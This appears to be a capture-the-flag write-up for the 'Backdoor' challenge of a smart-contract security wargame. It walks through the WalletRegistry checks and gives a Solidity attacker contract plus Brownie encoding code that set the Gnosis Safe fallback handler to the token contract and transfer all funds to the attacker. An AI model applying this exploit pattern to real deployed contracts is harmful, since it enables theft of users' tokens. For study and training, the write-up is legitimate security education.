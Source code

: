 ## Backdoor

### Challenge description

> To incentivize the creation of more secure wallets in their team, someone has deployed a registry of Gnosis Safe wallets. When someone in the team deploys and registers a wallet, they will earn 10 DVT tokens.
>
> To make sure everything is safe and sound, the registry tightly integrates with the legitimate Gnosis Safe Proxy Factory, and has some additional safety checks.
>
> Currently there are four people registered as beneficiaries: Alice, Bob, Charlie and David. The registry has 40 DVT tokens in balance to be distributed among them.
>
> Your goal is to take all funds from the registry. In a single transaction. 

### Solution

The Backdoor challenge tasks us with deploying a Gnosis Safe proxy for 4 users through a Gnosis Safe Proxy Factory. After each deployment, 10 DVT tokens will be distributed to each one of those users (the beneficiaries)

For the registry to accept each proxy creation as correct and to steal the tokens, we must code an attacker contract that makes the calls and pass a few conditions:

1. The WalletRegistry contract must have enough DVT tokens to make the payment to the beneficiary

```js
require(token.balanceOf(address(this)) >= TOKEN_PAYMENT, "Not enough funds to pay");
```

This does not directly depend on us, so we can continue.

1. The caller contract must be the GnosisSafeProxyFactory contract

```js
require(msg.sender == walletFactory, "Caller must be factory");
```

To achieve this, all we have to do is use the correct call when creating the proxy through the proxy factory contract. The call that invokes this function in the WalletRegistry (of course, specifying that this is the wallet registry that will receive the callback) is the function `createProxyWithCallback()`. This function takes the following parameters:

```cs
function createProxyWithCallback(
    address _singleton,
    bytes memory initializer,
    uint256 saltNonce,
    IProxyCreationCallback callback
)
```

+ The `_singleton` address is the Gnosis Safe implementation contract address, which the WalletRegistry contract refers to as the `masterCopy`.
+ The `initializer` data, which is the data we will generate to call `setup()` (detailed on condition 3)
+ The `saltNonce` which we can just set as 0
+ The `callback`, which is the address to the WalletRegistry contract, but since it can only be passed as an IProxyCreationCallback interface, we must pass it as such `IProxyCreationCallback(registry)` by importing the interface at the top of the attacker contract

3. The right singleton contract must be used

```js
require(singleton == masterCopy, "Fake mastercopy used");
```

This is covered by using the address of `masterCopy` (the Gnosis Safe implementation contract) correctly when calling `createProxyWithCallback()`


4. We must be calling `setup()`

```js
require(bytes4(initializer[:4]) == GnosisSafe.setup.selector, "Wrong initialization");
```

`setup()` is the initializer function for a Gnosis Safe multisignature wallet. This function is in the Gnosis Safe implementation contract (GnosisSafe.sol) and it takes the following parameters:

```cs
function setup(
    address[] calldata _owners,
    uint256 _threshold,
    address to,
    bytes calldata data,
    address fallbackHandler,
    address paymentToken,
    uint256 payment,
    address payable paymentReceiver
)
```

+ `_owners` must be an array with the addresses that will control this contract. Here we must input an array with a single element per multisig we initialize, one per user.
+ `_threshold` is the number of required confirmations per transaction signed by the safe. E.g. if `_threshold` is 4 and the size of `_owners` is 7, then at least 4 out of the 7 owner addresses must sign for a transaction to go through. In this case, this value must be 1.
+ `to` is a contract address to which an optional delegate call will be made, this can be set as the null address.
+ `data` payload for that optional delegate call. This can be 0.
+ **`fallbackHandler`** is the parameter which we will use to be able to exploit the wallets despite not being an owner of the wallet. This parameter is an address which will handle fallback calls to the contract, if we make a call that contains a function selector that does not match any function in the safe, then this selector and the calldata will be forwarded to a fallback contract which corresponds to the address of `fallbackHandler`. **Here we can input the DVT token contract address**.
+ `paymentToken` is the address of a token that can be optionally used to pay gas fees for transactions, we won't use gas tokens so this can be the null address as we want to use ETH to pay for txs.
+ `payment` is the value that should be payed in case a gas token is used. We'll use ETH, so this should be 0.
+ `paymentReceiver` is the address that will receive the payment. This should be the null address so that it's set to `tx.origin`.

5. The `_threshold` parameter in the `setup()` call needs to be 1.

```js
require(GnosisSafe(walletAddress).getThreshold() == MAX_THRESHOLD, "Invalid threshold");
```

As specified in 4.

6. The `_owners` array must be of length 1, so each multisig wallet must have at most 1 owner.

```js
require(GnosisSafe(walletAddress).getOwners().length == MAX_OWNERS, "Invalid number of owners");
```

As specified in 4.

7. The owner set per multisig must be in the list of beneficiaries.

```js
require(beneficiaries[walletOwner], "Owner is not registered as beneficiary");
```

After all requirements pass, the DVT tokens will be transferred to the created Gnosis Safe multisig. Each multisig will receive 10 DVT tokens.

To steall all the tokens in one transaction, we must create a function in the attacker contract that will perform the following workflow:

1. Create the multisig for user `user`.
    + The creation will assign the `fallbackHandler` as the DVT token contract address
    + The creation will assign the `callback` proxy creation callback interface to the WalletFactory contract

2. Make a call to the newly created Gnosis Safe multisig for user `user` with function selector + calldata performing a token transfer. The function selector specified must be that of the `transfer()` function of the DVT token contract. The calldata should be the receiver of those tokens (the attacker address) and the amount should be the entire balance that the WalletRegistry will send to the newly created multisig (10 DVT tokens). This call will effectively transfer the 10 DVT tokens in that Safe to the attacker's address.

I decided to pass the calldata for the `setup()` and `transfer()` functions as a parameter to the function so that the contract is more readable:

```js
function deploySafesAndStealTokens(bytes[] calldata maliciousSetupCalls, bytes calldata maliciousTransferCall) external {
    // loop over the malicious calls, creating a new proxy per loop
    // which will allow us to then call transfer after the token contract
    // is set up as a fallback contract for the wallet
    for (uint256 i = 0; i < maliciousSetupCalls.length; i++) {
        GnosisSafeProxy newGnosisSafeWallet = gspf.createProxyWithCallback(
            singleton,
            maliciousSetupCalls[i],
            0,
            IProxyCreationCallback(registry)
        );
        
        // transfer tokens to tx.origin, the attacker
        (bool success,) = address(newGnosisSafeWallet).call(maliciousTransferCall);

        // make sure the transfer is made
        require(success, "tokens stealing failed");
    }
}
```

To generate the data for this calls I just used the `encode_input` method in Brownie:

+ `setup()` call

```py
# malicious calls list
malicious_setup_calls = []

# loop over addresses
for user in users: 

    # setup call encoding from master copy
    malicious_setup_calls.append(
        master_copy.setup.encode_input(
            [user],
            1,
            ZERO_ADDRESS,
            0,
            token.address,
            ZERO_ADDRESS,
            0,
            ZERO_ADDRESS
        )
    )
```

+ `transfer()` call

```py
token_stealing_call = token.transfer.encode_input(
    attacker.address, 
    AMOUNT_TOKENS_DISTRIBUTED // len(users)
)
```

And then just call the attacker contract function to do it all in one transaction:

```py
attacker_contract.deploySafesAndStealTokens(
    malicious_setup_calls, 
    token_stealing_call, 
    _fromAttacker
)
```
